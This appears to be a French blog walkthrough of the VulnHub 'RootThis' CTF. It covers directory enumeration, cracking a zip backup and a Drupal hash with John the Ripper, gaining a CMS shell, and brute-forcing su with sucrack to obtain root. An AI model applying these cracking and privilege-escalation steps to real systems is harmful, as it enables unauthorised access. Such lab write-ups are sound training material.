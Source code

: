 ```yaml
---
title: "Solution du CTF RootThis de VulnHub"
tags: [CTF,VulnHub]
---
```


[RootThis](https://vulnhub.com/entry/rootthis-1,272/) est un CTF créé par *Fred Wemeijer* et proposé sur *VulnHub*.

On ne trouve sur la VM rien de plus que le port 80. Une énumération avec `feroxbuster` retourne un Drupal et un dossier `backup` :

```console
$ feroxbuster -u http://192.168.56.207/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -x php,html,zip,txt -W 32

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.207/
 🚀  Threads               │ 50
 📖  Wordlist              │ fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 💢  Word Count Filter     │ 32
 💲  Extensions            │ [php, html, zip, txt]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      368l      933w    10701c http://192.168.56.207/index.html
200     1092l     6216w   270103c http://192.168.56.207/backup
200      368l      933w    10701c http://192.168.56.207/
301        9l       28w      317c http://192.168.56.207/manual
301        9l       28w      317c http://192.168.56.207/drupal
[####################] - 1m    598005/598005  0s      found:5       errors:0      
[####################] - 1m    598005/598005  5569/s  http://192.168.56.207/
```

Accéder à `/backup` nous fait télécharger un fichier `backup.zip`. L'archive est protégée par mot de passe. Il faut générer un hash puis le casser avec `JtR` :

```console
$ zip2john backup.zip > hashes.txt
$ john --wordlist=wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
thebackup        (backup.zip/dump.sql)     
1g 0:00:00:00 DONE (2023-05-17 16:57) 2.325g/s 7601Kp/s 7601Kc/s 7601KC/s thebiker1..thanaye
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

On peut alors lire le dump SQL. Je recherche toutes les occurrences de `INSERT` jusqu'à trouver celle qui m'intéresse :

```sql
INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),
  (1,'webman','$S$D48VBXSv5S.xSEjmLOyEPUL.okqerljl.gR6X7q0nyYAvymhZ4VN','webman@localhost.net','','',NULL,1543758615,1543767021,1543767021,1,'Europe/Berlin','',0,'webman@localhost.net','b:0;')
```

Une fois de plus je passe le hash à `JtR` qui trouve le password correspondant : `moranguita`.

Avec le compte `webman` je peux accéder à l'interface d'administration du Drupal.

Obtenir un shell sur ce CMS est un peu compliqué : il faut activer le format PHP, créer un block utilisant le format et autoriser le compte administrateur dessus. J'ai décrit la procédure dans la solution du [CTF DC: 1]({% link _posts/2023-03-20-Solution-du-CTF-DC-1-de-VulnHub.md %}).

Avec mon shell, en fouillant dans le système, je trouve un message à l'attention de `root` :

```console
www-data@RootThis:/home/user$ cat MessageToRoot.txt 
Hi root,

Your password for this machine is weak and within the first 300 words of the rockyou.txt wordlist. Fortunately root is not accessible via ssh. Please update the password to a more secure one.

Regards,
user
```

Effectivement SSH n'est pas lancé sur le système. L'idée est donc de brute-forcer `su` ce que je n'ai jamais fait jusqu'à présent.

J'ai d'abord essayé avec [GitHub - carlospolop/su-bruteforce](https://github.com/carlospolop/su-bruteforce) qui est mentionné sur la page [Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#su-brute).

Le script n'avait pas l'air de tourner correctement, je ne voyais aucune instance de `su` tourner en fond.

J'ai donc dû me tourner vers [GitHub - hemp3l/sucrack: brute-forcing su for fun and possibly profit](https://github.com/hemp3l/sucrack) qui requiert d'être compilé. C'est là que ça se complique, car `gcc` n'est pas sur la VM.

J'ai tenté de le compiler sur mon système, mais comme ce dernier est bien plus récent et que j'avais des erreurs j'ai préféré abandonner.

Finalement j'avais une VM de *Debian Jessie* sous le coude. C'est une version Debian 8 (contre Debian 9) et la compilation échouait aussi, mais en changeant les versions de `aclocal` et `automake` de 1.15 à 1.14 dans le `Makefile` c'est passé.

```console
www-data@RootThis:/tmp$ SUCRACK_SU_PATH=/bin/su ./sucrack -u root rockyou.txt 
password is: 789456123
www-data@RootThis:/tmp$ su
Password: 
root@RootThis:/tmp# cd /root/
root@RootThis:~# ls
flag.txt
root@RootThis:~# cat flag.txt 
Congratulations!

flag: a67d764105005a6a95a9c8c03bc95710bc396dccc4364704127170637b2bd39d
```
